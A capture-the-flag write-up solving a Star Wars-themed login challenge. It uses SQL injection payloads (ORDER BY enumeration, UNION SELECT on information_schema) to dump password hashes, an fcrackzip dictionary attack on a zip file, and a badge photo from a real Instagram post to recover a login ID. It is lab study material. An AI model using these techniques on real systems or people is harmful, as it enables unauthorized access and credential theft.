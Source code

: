 # Challenge Zero
The challenge begins by directing to a website https://emprie.site/ and asking you to locate a way to log in

## SQL Injection
The Gallery page may immediatly be found to be vulnerable to a SQL injection. Furthermore, 
it's a pretty simple/straightforward injection to exploit.

### Enumerate the number of columns
```
1 order by 1
1 order by 2
1 order by 3
1 order by 4
1 order by 5
1 order by 6 <-- error
```

There are 5 columns returned as part of the query.

### Tables
```
1 union all select table_name, 2, 3, 4, 5 from information_schema.tables
```

Looks like there are three tables of interest:
* pages
* secret_pages
* users

#### Users table
Obtaining the list of columns from the users table reveals the following:

```
+------------------------------------------------------------------+-----------+
| password                                                         | username  |
+------------------------------------------------------------------+-----------+
| 2a8b3484cc216f51611d0f49b80029c66b5928df3939e344cb8d3dd4814c5bbc | tc_174812 |
| 2d579cd75056723657b8fa68fa6626c245cd362030159965efbdf41da2d67adf | tc_133337 |
+------------------------------------------------------------------+-----------+
```

Throwing the hashes into a hash cracker reveals that `tc_133337` has a password of `redherring`. 
That doesn't seem to be able to log in or anything, so it must actually be a...redherring.

#### Pages Table

```
+---------+----------+----------------------------------+---------------------------------------+----------------+
| page_id | is_draft | page_uri                         | page_title                            | page_thumbnail |
+---------+----------+----------------------------------+---------------------------------------+----------------+
| 1       | 0        | tie_fighter_speed.html           | Tie Fighters                          | tf.png         |
| 2       | 0        | storm_trooper_sharp_shooter.html | Storm Trooper Accuracy                | st.png         |
| 3       | 0        | death_star_reborn.html           | Death Star Reborn                     | deathstar.jpeg |
| 4       | 1        | redacted.html                    | REDACTED - Super Secret Plans Message | plan.jpg       |
+---------+----------+----------------------------------+---------------------------------------+----------------+
```

The `redacted.html` page seems interesting, however upon visiting it, the page just informs us 
that the page has moved to the `secret_pages` table.

#### Secret Pages Table

```
+---------+----------+---------------------------------+----------------------------+----------------+
| page_id | is_draft | page_uri                        | page_title                 | page_thumbnail |
+---------+----------+---------------------------------+----------------------------+----------------+
| 1       | 0        | super_secret_plans_message.html | Super Secret Plans Message | plan.jpg       |
+---------+----------+---------------------------------+----------------------------+----------------+
```

This `super_secret_plans_message.html` seems interesting, lets check it out! https://emprie.site/pages/super_secret_plans_message.html

## Morse Code
On the `super_secret_plans_message.html` page, there's an audio file that plays with what sounds like
morse code, throwing it into a .mp3 file and uploading it to a website [like this](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
that can decode morse code gives us a URL:

https://c3p.xyz

## Password Cracking
The c3p.xyz website contains a password-protected .zip and a wordlist file, downloading the two and using
`frackzip` gives us the password:

```bash
$ fcrackzip -u -D -p wordlist.txt documents.zip
PASSWORD FOUND!!!!: pw == itacolita
```

## Examine Documents
The ZIP file contained a few documents, but the most helpful is `disciplinary_note.txt` which conaints:

```
Emplpoyee Username: tc_trooper_174812
EmployeeID: ***-**-****
Date: 2045-04-06
Infraction: The employee was found posting sensitive information (EmployeeID) on social media. This kind of data breach could allow for unauthorized access to our employee portal.
Disciplinary Action: The employee must remove the post from their social media and obtain a new EmployeeID. This is their first warning.

**REMINDER DO NOT POST PICTURES OF BADGE ANYWHERE ONLINE! THIS CONTAINS YOUR SECRET EMPLOYEEID NUMBER!**
```

So, it seems that an employee `tc_trooper_174812` has revealed information. This took me a bit but it is
actually on a REAL social media page (not just part of the CTF). Searching for that username will give
you the [Instagram page for that user](https://www.instagram.com/p/CPCnYIOMIVo/)!

On the Instagram page, we can see a badge which lists `32145609` as the employee ID.

## Logging In
Going back to the original website and logging in with:

Username: `tc_trooper_174812`
Password: `32145609`

Success!

Flag: `silicon{B0rN_70_8E_R3b3ls}`

